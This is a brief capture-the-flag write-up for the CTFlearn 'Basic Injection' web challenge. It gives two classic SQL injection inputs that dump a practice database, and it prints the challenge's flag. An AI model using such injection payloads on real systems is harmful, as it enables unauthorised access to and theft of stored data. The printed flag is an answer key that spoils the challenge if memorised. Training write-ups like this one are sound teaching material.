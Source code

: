 ```yaml
---
layout: writeup
title: Basic Injection
---
```


# Basic Injection
Category: Web

## Description

> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/).  

# Solution

To solve this, simply input `OR 1=1; #` or `' OR 1=1;-- ` (with a space after double dash). This leaks the database and gives us the answer
```
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} 
```